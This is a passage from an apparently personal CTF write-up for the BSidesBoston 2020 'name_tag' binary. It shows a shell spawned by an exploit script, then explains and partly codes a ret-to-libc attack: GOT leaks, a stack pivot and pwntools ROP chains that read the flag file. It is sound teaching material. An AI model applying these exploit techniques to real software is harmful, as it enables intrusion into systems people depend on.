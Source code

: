 ```sh  
name_tag[master*] $ ./exploit.py LOCAL  
[+] Starting local process '/home/kali/gh-
ctf/bsidesbos-2020/name_tag/name_tag-traceable': pid 101633  
[*] -> cookie: 0x49da6b642084c700  
[*] Switching to interactive mode  
$ id  
uid=1000(kali) gid=1000(kali)
groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),117(bluetooth),132(scanner),998(docker)  
```

The full code can be seen at the end of this post.

## Ret-to-libc exploit

While the author didn't indend for a ret-to-libc exploit to work, I was able
to  
use the ROP to leak GOT addresses and found a database
((libc.rip)[http://libc.rip]) which told me the  
version, so I could use the correct offsets and get the flag. We could use
this  
to do another `execve(`/bin/sh`, 0, 0)` but as I mentioned earlier we can't  
actually run `execve` on the official binary due to the ptraceing. So we need
to  
try and open the file, read it, and then write it back to standard out.

So here is what we need to do:  
1. Leak libc addresses from GOT to calculate libc base  
2. Create a new ROP using these addresses to read the flag file and print it

My exploit might be a little more complicated than it needs to be, but this
was  
after working on this problem for many hours so I was braindead and I mean, it  
works :) The complexity is that in the second ROP we actually set up for  
a second stack pivot to a third ROP chain. I was running into some trouble
with  
overwriting too much of the data section causing the program to crash so  
I wanted to get the heap address and be able to use that more, though the  
exploit only ends up reading the flag into it which is pretty small. Okay, to  
the exploit.

```python  
# These were chosen by looking at the writable data section in the debugger to  
# find spots that were mostly 0s so it wouldn't break things.  
data_writable = 0x404f00  
flag_addr = 0x404e00

r = ROP(exe)  
# Print libc puts and malloc address from GOT.  
r.puts(exe.got['puts'])  
r.puts(exe.got['malloc'])  
# Read the flag file name into one location and our next ROP into another  
r.readStr(flag_addr, 0xff)  
r.readStr(data_writable, 0xfff)  
# Pivot the stack to where we are writing the next ROP  
r.raw(pop_rsp) #  pop rsp; pop r13; pop r14; pop r15; ret;  
r.raw(data_writable)  
heap = do_rop(io, r.chain())  
heap += 1024 # get our of the way of our previous writes (recall our first ROP
started here)

# Parse the leaked address and calculate the base address. This was sometimes  
# inconsistent, I asssume 0s in the addresses, which is why the length check
is  
# there.  
```